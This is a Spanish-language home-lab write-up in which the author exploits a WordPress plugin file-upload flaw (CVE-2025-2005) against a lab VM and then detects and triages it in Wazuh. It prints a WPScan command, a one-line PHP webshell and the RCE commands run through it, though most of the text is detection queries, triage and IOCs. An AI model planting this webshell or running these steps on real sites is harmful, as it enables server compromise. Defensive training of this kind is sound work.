



# Día 3 — Explotación CVE-2025-2005: Webshell y RCE

**Fecha:** 2026-07-05
**Fase:** 2 — Detección y triage

## Objetivo

Explotar la vulnerabilidad CVE-2025-2005 de WordPress desde Kali y subir una webshell que permita ejecutar RCE. Los registros generados por el ataque (logs de Apache + FIM) serán detectados y analizados en Wazuh.

## Entorno

- Wazuh 4.14.6 (Docker single-node: indexer + manager + dashboard).
- Agentes: `Ubuntu-Victim` (Ubuntu 25.10) — Active, `MacBook-M1` (macOS) — Active.
- Módulos usados: Threat Hunting → Events, FIM (syscheck).
- Atacante: `Ancla-Kali` (`192.168.1.132`).
- Objetivo: WordPress 7.0 + Front End Users 3.2.32 en `Ubuntu-Victim` (`192.168.1.96`).

## MITRE ATT&CK

| Táctica | Técnica | ID | Herramienta / Acción |
|---|---|---|---|
| Reconnaissance | Active Scanning: Vulnerability Scanning | T1595.002 | WPScan |
| Initial Access | Exploit Public-Facing Application | T1190 | CVE-2025-2005 exploit |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | Webshell `?cmd=` |
| Persistence | Server Software Component: Web Shell | T1505.003 | `gpcDDZYih2shell.php` |
| Discovery | System Information Discovery | T1082 | `id`, `uname`, `hostname`, `ip addr` |

## Ejecución (Red)

**Fase 1 — Reconocimiento:**
```bash
wpscan --url http://192.168.1.96 --enumerate p,t,u --no-update --plugins-detection aggressive
```
WPScan generó 1962 peticiones en 16 segundos. Hallazgos clave: usuario `marco_admin` enumerado vía WP JSON API, directorio de uploads con listing habilitado, XML-RPC activo.

**Fase 2 — Verificación del plugin vulnerable:**
```bash
curl -s -o /dev/null -w "%{http_code}" http://192.168.1.96/wp-content/plugins/front-end-only-users/
# 200 — plugin confirmado
```

**Fase 3 — Creación del webshell:**
```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
```

**Fase 4 — Explotación (arbitrary file upload sin autenticación):**
Script Python que obtiene el nonce fresco del formulario y sube `shell.php` como `Documento` con `Content-Type: image/jpeg`. HTTP 200 como respuesta.

**Fase 5 — RCE confirmado:**
```bash
# Comandos ejecutados a través del webshell
?cmd=id        → uid=33(www-data) gid=33(www-data)
?cmd=whoami    → www-data
?cmd=hostname  → Ubuntu-Victim
?cmd=uname -a  → Linux Ubuntu-Victim 6.17.0-40-generic x86_64
?cmd=ip addr   → inet 192.168.1.96/24
```

## Consulta

Módulo Threat Hunting → Events. Flujo de investigación de lo general a lo específico:

```
# 1. Punto de entrada — visión general sin suposiciones
agent.name: "Ubuntu-Victim"

# 2. Filtrar la señal — eventos que merecen atención
agent.name: "Ubuntu-Victim" and rule.level: >= 7

# 3. Confirmar detección FIM — archivo creado en el sistema
rule.groups: syscheck and agent.name: "Ubuntu-Victim"
```

**Eventos clave observados:**

| Nº | rule.id | Nivel | Descripción | Significado |
|---|---|---|---|---|
| 1790 | 31101 | 5 | Web server 400 error code | Firma del escaneo WPScan |
| 137 | 31151 | 10 | Multiple 400 from same source IP | Correlación automática de reconocimiento |
| 2 | 554 | **5** | File added to the system | **Webshell creado en uploads (FIM)** |

## Gráficos

Firma del ataque — reglas clave baseline vs. ataque:



Comparativa de severidad baseline vs. ataque:



Serie de tiempo — baseline vs. ataque:



## Triage

**Verdaderos positivos (VP):**
- 137 eventos `rule.id 31151` (nivel 10) — reconocimiento WPScan desde `192.168.1.132`. Patrón inequívoco de escaneo activo detectado por correlación automática de Wazuh.
- 1 evento `rule.id 554` (nivel 5) — FIM detectó `gpcDDZYih2shell.php` en `ewd-feup-user-uploads/` en `Mode: realtime`. Webshell activo confirmado.
- RCE confirmado: `id`, `whoami`, `hostname`, `uname -a`, `ip addr` ejecutados como `www-data` desde el webshell.

**Eventos benignos (fuera de scope del incidente):**
- 9 eventos "Valid Accounts" Ubuntu → sesiones `sudo` legítimas de `vboxuser` durante el trabajo del día. Actividad normal del administrador.
- "File Deletion" / "Data Destruction" → fuera del horario del ataque. Corresponden al montaje del Día 2 (`rm index.html`).
- 24 eventos "Disable or Modify Tools" MacBook M1 → telemetría propia de la Mac, sin relación con el incidente.

**¿Escala a L2? Sí — P1 (crítico).** Razones:
1. Contención requiere coordinación con infraestructura (bloqueo de IP, aislamiento del servidor).
2. Análisis forense del webshell y verificación de backdoors adicionales excede el alcance L1.
3. Decisiones de negocio (notificación, plan de continuidad) requieren escalación al CISO.

## Hallazgos / IOCs

```
# Confirmado desde Wazuh (L1)
IP atacante:        192.168.1.132
URL explotada:      /index.php/registro/
Herramienta recon:  WPScan
Ruta del webshell:  /var/www/html/wp-content/uploads/2026/07/
                    ewd-feup-user-uploads/gpcDDZYih2shell.php
Usuario WP creado:  atacante01

# Requiere investigación L2
CVE específico:     Pendiente — hipótesis: CVE-2025-2005
                    (arbitrary file upload en front-end-only-users)
Versión del plugin: Pendiente — confirmar en servidor
Comandos ejecutados: Pendiente — análisis forense del webshell
Otros artefactos:   Pendiente — verificar backdoors adicionales
```

## Notas

- La etapa de reconocimiento es fácilmente visible desde Wazuh debido a la cantidad de ruido que genera (ráfaga de errores 400 → correlación automática `rule 31151`, nivel 10).
- Lo que no es sencillo de ver es la creación de archivos como el webshell — es necesario filtrar específicamente los eventos FIM (`rule.groups: syscheck`) para no perder señales críticas enterradas bajo el volumen del ataque.
- El Dashboard de Wazuh es útil para analizar picos de eventos en el tiempo y las técnicas MITRE asociadas, pero es necesario generar gráficas externas para analizar distribución de niveles y comparativas baseline vs. ataque.

## Lecciones

- La severidad de una regla no equivale a la severidad del incidente. El webshell fue detectado a nivel 5 (Low) por FIM, pero representaba el hallazgo más crítico del día: acceso inicial confirmado, persistencia activa y RCE ejecutado. El contexto (¿qué archivo?, ¿en qué ruta?, ¿a qué hora?) es lo que convierte un evento Low en un incidente P1.
